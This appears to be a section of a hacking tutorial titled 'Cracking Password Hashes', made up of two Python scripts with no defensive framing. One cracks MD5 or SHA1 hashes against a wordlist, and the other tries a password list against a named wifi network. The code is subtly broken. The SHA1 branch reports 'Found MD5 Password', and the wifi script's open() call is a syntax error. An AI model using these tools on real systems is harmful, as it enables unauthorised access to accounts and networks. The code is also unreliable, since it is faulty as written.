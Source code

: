 
## 07 - Cracking Password Hashes

### Code

```
#!/usr/bin/env python

# password_hash_cracker.py

import hashlib

hash_type = str(input("Enter type of hash to be bruteforced: "))
file_path = str(input("Enter path to password wordlist: "))
decrypt_hash = str(input("Enter hash value to bruteforce: ")) 

with open(file_path, "r") as file:
	for line in file.readlines():
		if hash_type == "md5":
			hash_object = hashlib.md5(line.strip().encode())
			hashed_word = hash_object.hexdigest()
			if hashed_word == decrypt_hash:
				print("[+] Found MD5 Password --> " + line.strip())
				exit(0)
				
		if hash_type == "sha1":
			hash_object = hashlib.sha1(line.strip().encode())
			hashed_word = hash_object.hexdigest()
			if hashed_word == decrypt_hash:
				print("[+] Found MD5 Password --> " + line.strip())
				exit(0)
	
	print("[-] Password not found in wordlist")
```

```
#!/usr/bin/env python

# wireless_bruteforcer.py

from wireless import Wireless

wire = Wireless()
with open("passwords.list" as "r") as file:
	for line in file.readlines():
		if wire.connect(ssid='takmicar', password=line.strip()) == True:
			print("[+] " + line.strip() + " Success!")
		else:
			print("[+] " + line.strip() + " Failed.")
```

---

